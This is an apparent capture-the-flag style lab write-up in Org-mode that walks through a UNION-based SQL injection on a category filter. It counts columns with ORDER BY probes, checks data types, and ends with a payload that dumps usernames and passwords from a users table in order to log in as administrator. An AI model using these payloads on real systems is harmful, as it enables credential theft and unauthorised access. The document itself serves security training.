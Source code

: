 #+title: SQL injection UNION attack, retrieving data from other tables

* About
Sql injection on ~category~ filter

** End Goal
Login as ~administrator~

We can use what we learn from previous labs

* Steps
** Step 1
First determine how many columns are there
#+begin_src sql
'ORDER BY 1 --
#+end_src
~200~ response
#+begin_src sql
'ORDER BY 2 --
#+end_src
~200~ response
#+begin_src sql
'ORDER BY 3 --
#+end_src
~500~ error response

So columns = 2

** Step 2
Now determine the which data type is columns using

#+begin_src sql
'UNION SELECT 'abc', NULL --
#+end_src
~200~ response

#+begin_src sql
'UNION SELECT 'abc', 'bcb'--
#+end_src
~200~ response

so  both columns are string data type

* Solution query
#+begin_src sql
'UNION SELECT username, password FROM users --
#+end_src

This will show all the users with username and password information on the page. Now copy the password of  ~administrator~ and login

